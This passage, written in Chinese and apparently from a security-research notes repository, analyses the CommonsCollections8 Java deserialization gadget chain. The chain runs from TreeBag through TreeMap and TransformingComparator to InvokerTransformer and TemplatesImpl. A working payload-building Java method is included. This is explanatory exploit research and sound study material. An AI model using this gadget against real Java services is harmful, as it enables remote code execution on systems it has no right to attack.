





# CommonsCollections8

Ref: https://github.com/frohoff/ysoserial/pull/116/files

## 0x01 kick-off TreeBag

在 CC2、CC4 中通过  `org.apache.commons.collections4.comparators.TransformingComparator#compare()` 实现对  `transform()` 方法的调用，那么介绍一下与 `PriorityQueue` 同在 rt.jar 下的另一个方法  `TreeMap`，`TreeMap` 是一个能比较元素大小的 Map 集合，会对传入的 key 进行了大小排序。可以使用元素的自然顺序，也可以使用集合中自定义的比较器来进行排序。



接着需要继续找 kick-off ，这里使用的是 CC 中的 `org.apache.commons.collections4.bag.TreeBag` 类， `TreeBag` 类使用 `TreeMap` 来实现数据存储



在对 `TreeBag` 反序列化时，会将反序列化得到的 `Comparator` 传入 `TreeMap` 实例化，实例化后交由父类的 `org.apache.commons.collections4.bag.AbstractMapBag#doReadObject()` 处理。



执行 `put()` 方法时就会触发到 `compare()` 方法



最后构造出的结果

```java
public TreeBag getObject(final String command) throws Exception {
   final Object templates = Gadgets.createTemplatesImpl(command);
   // mock method name until armed
   final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

   TreeBag treeBag = new TreeBag(new TransformingComparator(transformer));
   treeBag.add(templates);

   // switch method called by comparator
   Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

   return treeBag;
}
```

为什么 InvokerTransformer 要以这种形式构造，这个问题需要归结到集合来看，hashCode() 广泛运用在集合的操作中，之前的分析也多次强调我们通过 hashCode() 方法来执行 transform() ，跟进一下 `treeBag.add(templates);` 就会发现会根据我们先前制定的 `InvokerTransformer` 走到其对应的 transform()，那么肯定要输入一个在 `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` 中存在的方法


